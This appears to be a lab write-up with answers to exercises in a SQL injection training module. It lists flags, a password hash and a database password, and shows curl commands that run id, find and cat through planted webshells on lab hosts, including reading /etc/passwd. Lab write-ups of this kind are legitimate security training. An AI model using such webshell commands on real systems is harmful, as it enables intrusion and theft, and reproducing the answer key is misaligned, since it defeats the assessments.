




# [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33)

## Exercise - Database Enumeration

### Questions

#### Question #01

**Question**

What is the password hash for `newuser` stored in the `users` table in the `ilfreight` database?


**Answer**

```
9da2c9bcdf39d8610954e0e11ea8f45f
```

## Exercise - Reading Files

### Questions

#### Question #01

**Question**

We see in the above PHP code that `$conn` is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.


**Answer**

```
dB_pAssw0rd_iS_flag!
```

## Exercise - Writing Files

### Questions

#### Question #01

**Question**

Find the flag by using a webshell.







```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=id

[SNIP]

uid=33(www-data) gid=33(www-data) groups=33(www-data)

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=find+/+-iname+flag.txt

[SNIP]

/var/www/flag.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.121.120:47916/websh.php?0=cat+/var/www/flag.txt

[SNIP]

d2b5b27ae688b6a0f1d21b7d3a0798cd
```

**Answer**

```
d2b5b27ae688b6a0f1d21b7d3a0798cd
```

---

## Skills Assessment

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

### Questions

#### Question #01

**Question**

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the `/` root directory of the file system. Submit the contents of the flag as your answer.








```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=cat+/etc/passwd

[SNIP]

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=find+/+-iname+flag*.txt

[SNIP]

/flag_cae1dadcd174.txt

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-o47widjyva]─[~]
└──╼ [★]$ curl http://94.237.51.3:39969/dashboard/webshell.php?0=cat+/flag_cae1dadcd174.txt

[SNIP]

528d6d9cedc2c7aab146ef226e918396
```

**Answer**

```
528d6d9cedc2c7aab146ef226e918396
```

---
---
